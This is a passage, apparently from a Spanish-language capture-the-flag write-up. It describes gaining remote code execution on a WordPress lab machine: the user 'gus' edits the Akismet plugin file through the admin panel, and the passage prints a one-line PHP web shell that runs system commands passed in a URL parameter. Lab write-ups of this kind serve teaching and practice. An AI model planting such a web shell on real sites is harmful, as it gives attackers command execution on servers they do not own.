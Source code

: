 ![Descripción](/assets/img/posts/cofeeaddicts/20250622001608.png)

### Ejecución de código remoto  

Al examinar  el panel de administración de WordPress con el usuario `gus`,  este posee privilegios suficientes para editar archivos de plugins desde el propio panel. 
En particular,  es posible modificar el archivo `akismet.php`, correspondiente al plugin Akismet, ubicado en: `/wp-content/plugins/akismet/akismet.php`

Entonces con esto en cuenta aprovechamos esta funcionalidad para insertar un WebShell básico que permite la ejecución remota de comandos del sistema mediante parámetros en la URL:

``` php
<?php system($_GET['cmd']); ?>
```
